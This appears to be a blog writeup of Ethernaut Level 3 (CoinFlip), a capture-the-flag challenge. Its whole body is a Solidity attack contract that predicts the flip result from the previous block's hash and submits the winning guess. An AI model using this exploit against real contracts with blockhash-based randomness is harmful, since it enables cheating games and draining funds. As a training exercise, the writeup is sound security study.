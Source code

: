 +++
title = 'Ethernaut Level 3 - Coin'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Beat a badly implemented PRNG'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.25;

interface CoinFlip  {
    function flip(bool _guess) external  returns (bool) ;
}

contract hackCoinFlip {
    CoinFlip  originalContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _addr){
        originalContract = CoinFlip(_addr);
    }

    function hackFlip() public {
        
        // pre-deteremine the flip outcome
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        // Interact with original contract
        originalContract.flip(side);
    }
}

```